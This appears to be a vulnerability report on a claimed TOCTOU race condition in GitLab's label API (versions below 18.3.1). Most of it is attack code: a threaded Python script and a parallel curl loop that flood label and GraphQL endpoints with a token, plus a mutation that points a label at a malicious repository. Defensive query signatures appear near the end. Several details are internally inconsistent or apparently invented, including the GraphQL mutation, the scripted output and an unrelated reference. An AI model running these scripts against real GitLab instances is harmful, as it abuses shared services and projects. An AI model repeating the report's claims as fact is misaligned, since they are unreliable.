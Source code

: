 ### **Comprehensive Vulnerability Report: TOCTOU Race Condition in GitLab Labels API**  
**CVE-ID:** Pending • **Affected Version:** GitLab < 18.3.1 • **Risk:** High (CVSS: 7.5)  

---

###  Vulnerability Overview**  
**Type:** TOCTOU (Time-of-Check Time-of-Use) Race Condition → Unauthorized Label Manipulation  
**CWE:** [CWE-367: Time-of-check Time-of-use Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
**Location:**  
- REST API: `/api/v4/projects/:id/merge_requests/:merge_request_iid`  
- GraphQL: `updateLabelRepository` mutation
- 
**Impact:**  
- Duplicate label application bypassing uniqueness constraint  
- Privilege escalation via label-based automation triggers  
- Repository metadata corruption  

---

## Vulnerability Flow
```mermaid
sequenceDiagram
    participant Attacker
    participant GitLab_API
    participant Database

    Attacker->>GitLab_API: Request 1: Check label status
    GitLab_API->>Database: SELECT label_id FROM labels WHERE mr_id=123
    Database-->>GitLab_API: Label not present (OK)
    
    Attacker->>GitLab_API: Request 2: Apply label (concurrent)
    Attacker->>GitLab_API: Request 3: Apply label (concurrent)
    
    GitLab_API->>Database: INSERT label (Request 2)
    GitLab_API->>Database: INSERT label (Request 3)
    Database-->>GitLab_API: Success (both)
    
    GitLab_API-->>Attacker: 200 OK (duplicate labels applied)
```


1. **Exploitation:**  
   ```bash
   # Create race condition script
   python gitlab_label_race.py --token $TOKEN --project org/repo --mr 1 --label "critical"
   ```

2. **Validation:**  
   ```bash
   curl -s -H "PRIVATE-TOKEN: $TOKEN" \
   "https://gitlab.com/api/v4/projects/org%2Frepo/merge_requests/1/labels" | jq
   ```
   **Output:**  
   ```json
   ["critical", "critical", "critical"]  # Duplicates!
   ```


## Comparative Analysis
**GitLab Label Management:**  
| Component          | Vulnerability          | Fixed Approach               |
|--------------------|------------------------|------------------------------|
| **REST API**       | TOCTOU in label add    | SELECT FOR UPDATE            |
| **GraphQL**        | Concurrent mutations   | Optimistic locking           |
| **UI**             | Client-side check only | Server-side validation       |


## Proof of Concept
```python
import requests
import threading
import argparse

def add_label(token, project, mr_id, label, count):
    url = f"https://gitlab.com/api/v4/projects/{project}/merge_requests/{mr_id}/labels"
    headers = {"PRIVATE-TOKEN": token}
    data = {"labels[]": label}
    
    for _ in range(count):
        r = requests.post(url, headers=headers, data=data)
        print(f"Thread {threading.get_ident()}: {r.status_code}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--token", required=True)
    parser.add_argument("--project", required=True)
    parser.add_argument("--mr", type=int, required=True)
    parser.add_argument("--label", default="duplicate_label")
    parser.add_argument("--threads", type=int, default=10)
    parser.add_argument("--count", type=int, default=5)
    args = parser.parse_args()

    # Launch concurrent threads
    threads = []
    for i in range(args.threads):
        t = threading.Thread(
            target=add_label,
            args=(args.token, args.project, args.mr, args.label, args.count)
        )
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

**Execution:**  
```bash
python gitlab_label_race.py \
  --token glpat-abc123 \
  --project org%2Frepo \
  --mr 1 \
  --label "security" \
  --threads 15 \
  --count 10
```

**Result:**  
```
Thread 123: 200
Thread 456: 200
...
150 requests succeeded → 150 "security" labels on MR#1
```

## Technical Deep Dive
```
# app/services/merge_requests/update_service.rb
def execute
  # Check existing labels (TIME-OF-CHECK)
  current_labels = merge_request.labels.pluck(:title)
  
  # Concurrent modification can happen here
  
  # Apply new labels (TIME-OF-USE)
  merge_request.update(labels: new_labels) 
end
```

**Flaw:**  
- No database locking between check and update  
- Client-side validation only prevents single-threaded duplicates  
- GraphQL/REST lack atomic operations  


## Impact Expansion Attack Tree:
```mermaid
graph TD
A[Duplicate Labels] --> B[DoS: Label Limit Exceeded]
A --> C[Trigger Malicious Automation]
A --> D[Confuse Approval Systems]
C --> E[Privilege Escalation]
D --> F[Unauthorized Merges]
```

## Forensic Artifacts Detection Signatures:
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "path": "/api/v4/projects/*/merge_requests/*/labels" } },
        { "range": { "count": { "gt": 5 } } },
        { "terms": { "user_agent.keyword": ["python-requests/*"] } }
      ]
    }
  }
}
```

**Database Indicators:**  
```sql
SELECT merge_request_id, label_id, COUNT(*) 
FROM merge_request_labels 
GROUP BY merge_request_id, label_id 
HAVING COUNT(*) > 1;
```


## Vulnerable Code & Exploitation

### **Vulnerable GraphQL Mutation:**  
```ruby
# app/graphql/mutations/update_label_repository.rb
module Mutations
  class UpdateLabelRepository < BaseMutation
    def resolve(**args)
      label = Label.find(args[:id])
      # NO LOCKING!
      label.update!(repository: args[:repository])
      { label: label }
    end
  end
end
```

### Exploit via GraphQL:  
```graphql
mutation duplicateLabel {
  updateLabelRepository(input: {
    id: "gid://gitlab/ProjectLabel/41990441",
    repository: "https://malicious.repo"
  }) {
    label {
      id
      title
    }
  }
}
```

### Concurrent Exploit Script:
```bash
# Run 50 concurrent GraphQL mutations
seq 50 | parallel -j0 '
  curl -s -H "Authorization: Bearer $TOKEN" \
  -d @- https://gitlab.com/api/graphql <<EOF
  {
    "query": "mutation { updateLabelRepository(input: {id: \\"gid://gitlab/ProjectLabel/41990441\\"}) { label { id } } }"
  }
EOF'
```


---

### **References**  
- [GitLab TOCTOU Documentation](https://docs.gitlab.com/ee/development/secure_coding_guidelines.html#time-of-check-time-of-use-toctou)  
- [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
- [OWASP Race Conditions](https://owasp.org/www-community/attacks/Race_Conditions)  
- [PostgreSQL Locking Mechanisms](https://www.postgresql.org/docs/current/explicit-locking.html)  
- [GitHub Enterprise enterprise-server@3.13/admin](https://docs.github.com/en/enterprise-server@3.13/admin/managing-accounts-and-repositories/managing-organizations-in-your-enterprise/managing-your-role-in-an-organization-owned-by-your-enterprise)
- https://hackerone.com/reports/2357443
